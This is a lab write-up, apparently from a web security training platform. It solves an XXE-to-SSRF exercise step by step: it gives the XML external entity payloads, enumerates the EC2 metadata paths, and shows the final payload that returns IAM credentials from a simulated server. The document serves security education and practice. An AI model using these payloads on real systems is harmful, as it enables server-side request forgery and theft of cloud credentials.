









### Lab Description

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

**Goal:** Exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.



---

### Solution

#### 1. Intercept the "Check stock" request

- Go to any product page and click **Check stock**.
- Intercept the request in Burp Suite.
- The request contains XML data:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```



#### 2. Test for XXE

Replace the request body with a basic external entity payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE productId [
  <!ENTITY test SYSTEM "<http://169.254.169.254/>">
]>
<stockCheck>
  <productId>&test;</productId>
  <storeId>1</storeId>
</stockCheck>
```

You will get a response indicating that the external entity was processed.



#### 3. Enumerate the EC2 metadata endpoint

Gradually build the path by changing the external entity URL:

| Payload URL | Response |
| --- | --- |
| `http://169.254.169.254/` | Contains `latest` |
| `http://169.254.169.254/latest` | Contains `meta-data` |
| `http://169.254.169.254/latest/meta-data` | Contains `iam` |
| `http://169.254.169.254/latest/meta-data/iam` | Contains `security-credentials` |
| `http://169.254.169.254/latest/meta-data/iam/security-credentials` | Contains `admin` |







#### 4. Final Payload (Get the Secret Access Key)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE productId [
  <!ENTITY test SYSTEM "<http://169.254.169.254/latest/meta-data/iam/security-credentials/admin>">
]>
<stockCheck>
  <productId>&test;</productId>
  <storeId>1</storeId>
</stockCheck>
```



#### 5. Response

The server returns the IAM credentials, including the **SecretAccessKey**:

```json
{
  "Code": "Success",
  "LastUpdated": "2026-09-16T16:55:41.887223196Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "J1XaOZBivSYaRqncXTrW",
  "SecretAccessKey": "C1R8qYBzvvYzHMQSL1SzHgGV05fsYi20mmTC0Kyf",
  "Token": "F520ncYypsa2GlabKNaQ0nb4q7pJpxmBYKKwyaZg0U0QXEqkc0as8mied6z5r3aAGoKb6jjj2oZXk9c7AXiJnyvZWkTKaPUFVgUphDJjpxIzyFQtmtjss1zdodzS2s0j7O16KuZ7B1hED5NTLXP0HbidVlQWr60UVY6WyLiAQ5mWmVubNz6BQS f8CtEAn5eddwT5TdtpHZJRQOkBM0zBqCFNTPozjpdjKP93XIYwQm3jBHIvSeHiyUkRHot9cHCA",
  "Expiration": "2032-09-14T16:55:41.887223196Z"
}
```

---



### Flag / Solution Confirmation

Lab solved successfully after retrieving the IAM Secret Access Key via XXE → SSRF.

